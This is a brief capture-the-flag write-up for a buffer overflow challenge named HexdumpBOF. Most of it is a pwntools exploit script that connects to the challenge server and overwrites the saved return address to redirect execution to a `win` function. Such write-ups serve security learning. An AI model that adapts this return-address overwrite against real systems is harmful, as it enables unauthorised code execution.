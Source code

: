 # HexdumpBOF

This is a buffer overflow challenge, with a few helpers
to help you verify your work. The idea is that we can force
the `rip` to be whatever we want, by overwriting the value
on the stack. In this case, we can force it to be `&win`.

The 16-byte padding thing is just something to watch out for, sigh

Exploit code:

```python
from pwn import *

io = remote("challs1.nusgreyhats.org", 5002)

padding = b"A"*32
pad = b"A"*8
ret = b"\xdc\x14\x40\x00\x00\x00\x00\x00"

io.send(padding + pad + ret + b"\n")

io.interactive()
```